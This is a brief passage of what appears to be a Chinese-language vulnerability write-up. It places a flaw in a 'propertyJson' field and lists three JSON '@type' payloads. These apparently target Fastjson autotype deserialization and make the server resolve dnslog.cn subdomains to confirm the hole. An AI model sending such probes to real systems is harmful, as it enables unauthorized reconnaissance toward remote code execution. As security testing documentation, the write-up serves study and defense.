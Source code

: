 具体的漏洞再propertyJson字段

![image-20231222205858058](image-20231222205858058.png)



用payload探测一下。

```
{"@type":"java.net.Inet6Address","val":"sdffsd.dnslog.cn"}


{"name":{"@type":"java.net.InetAddress","val":"1247.xxxxx.dnslog.cn"}}

{"@type":"java.net.InetSocketAddress"{"address":,"val":"wefewffw.dnslog.cn"}}
```



![image-20231222210256875](image-20231222210256875.png)



![image-20231222210332875](image-20231222210332875.png)
